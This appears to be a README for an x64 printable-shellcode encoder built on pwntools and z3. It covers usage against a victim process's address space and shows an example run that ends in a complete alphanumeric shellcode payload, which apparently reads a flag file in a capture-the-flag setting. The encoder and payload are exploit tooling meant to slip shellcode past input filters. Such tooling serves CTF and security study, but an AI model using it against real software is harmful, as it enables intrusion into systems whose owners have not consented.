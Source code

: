 # x64 printable shellcode encoder

### Dependencies
 - pwntools (`pip install pwntools`)
 - z3 python bindings (`pip install z3-solver`)

### Usage
`./main.py <shellcode file> <pointer to shellcode>`

For the encoded shellcode to work it needs to be able to know where it will execute. This is done by passing the encoder a pointer to your shellcode. This should be an expression that is the address of the start of the shellcode in the victim's address space. For example, if rdx happens to point to your shellcode, use `rdx`. If the shellcode is always at 0x4001000, specify that. Etc. Also, if you want to use a negative offset you must use `base+-offset`. This is because I hacked the parser together really quickly.

#### Examples
- `./main.py shellcode.bin rcx`
- `./main.py shellcode.bin [rsp+-8]`
- `./main.py shellcode.bin 0x0123456789abcdef`
- `./main.py shellcode.bin rbp+5`

### Example output
```
$ python main.py shellcode.bin rax+0x150
Encoding stage2
488b0432 => 4863343a31343a53582d702835332d74205f5f35543c6f5f505e31343a57582d7c6f3f7e2d405042402d40407e41505f
480faf44 => 4863343a31343a53582d505040792d743020693574703059505e31343a57582d7c6f3f7e2d405042402d40407e41505f
32084889 => 4863343a31343a53582d244874202d5f606c20354f5f5736505e31343a57582d7c6f3f7e2d405042402d40407e41505f
043a83c7 => 4863343a31343a53582d402233402d706020203554472f58505e31343a57582d7c6f3f7e2d405042402d40407e41505f
0883c610 => 4863343a31343a53582d403346322d7020207e35582f5f5f505e31343a57582d7c6f3f7e2d405042402d40407e41505f
85c075e8 => 4863343a31343a53582d204775202d202160403545575f77505e31343a57582d7c6f3f7e2d405042402d40407e41505f
Multiply-encoding stage3
eb365f31c0040231 => 45375d7168724246 6f4047487268284e
f60f054889c76681 => 456453557d232227 7e3e7d2d6b72697d
ecff0f4889e648c7 => 615a285150304752 6c3f4c4848644a47
c2ff0f000031c00f => 4178757b577d6869 423f6f5f41715055
0531ff4080c70148 => 3d7d537e307c7458 694f37294a726258
89c231c0ffc00f05 => 41233b202b406267 497538523e77406d
31ff31c0043c0f05 => 43667e753a6f6443 7b5f2c5b2b444651
e8c5ffffff2f7072 => 51424b2d33383b23 68457d3f3f2b7076
6f632f666c616700 => 5d774b667832573f 3b553d6f4d7e5b55
Assembling jump at +408

Encoding preamble for rdx <- rax+0x150
TAYAXVI31VXPXf-0~f-@Bf-@>PZ

Original length: 72
Encoded length:  556
Preamble length: 27
Total length:    583

TAYAXVI31VXPXf-0~f-@Bf-@>PZTAYAXVI31VXPP[_Hc4:14:SX-p(53-t __5T<o_P^14:WX-|o?~-@PB@-@@~AP_Hc4:14:SX-PP@y-t0 i5tp0YP^14:WX-|o?~-@PB@-@@~AP_Hc4:14:SX-$Ht -_`l 5O_W6P^14:WX-|o?~-@PB@-@@~AP_Hc4:14:SX-@"3@-p`  5TG/XP^14:WX-|o?~-@PB@-@@~AP_Hc4:14:SX-@3F2-p  ~5X/__P^14:WX-|o?~-@PB@-@@~AP_Hc4:14:SX- Gu - !`@5EW_wP^14:WX-|o?~-@PB@-@@~AP_SX- `Ba- @BA5X^{]P_Hc4:14:SX-*90 -E'  5n}?/P^14:WX-|o?~-@PB@-@@~AP_SX- `@a- @PA5\^o]P^SX-@@@"-y``~5____P_AAAAE7]qhrBFo@GHrh(NEdSU}#"'~>}-kri}aZ(QP0GRl?LHHdJGAxu{W}hiB?o_AqPU=}S~0|tXiO7)JrbXA#; +@bgIu8R>w@mCf~u:odC{_,[+DFQQBK-38;#hE}??+pv]wKfx2W?;U=oM~[U
```
